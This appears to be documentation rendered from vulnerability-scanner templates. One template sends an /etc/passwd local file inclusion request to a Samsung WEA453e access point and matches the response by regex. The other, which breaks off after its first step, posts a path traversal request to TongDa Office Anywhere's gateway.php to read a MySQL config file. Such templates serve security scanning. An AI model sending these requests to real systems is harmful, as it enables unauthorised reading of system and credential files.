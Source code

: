 ## Description

- Samsung WLAN AP WEA453e is susceptible to local file inclusion vulnerabilities.
- severity - high
- tags - xss,samsung,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/(download)/etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
  2. bin:.\*:1:1
- part - body

**Type - status**

- status
  1. 200

---

# Office Anywhere TongDa - Path Traversal

## Description

- Office Anywhere (OA) is susceptible to path traversal vulnerabilities which can be leveraged to perform remote code execution.

- severity - critical
- tags - tongda,lfi

## Requests

### Step - 1

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

json={"url":"/general/../../mysql5/my.ini"}

```
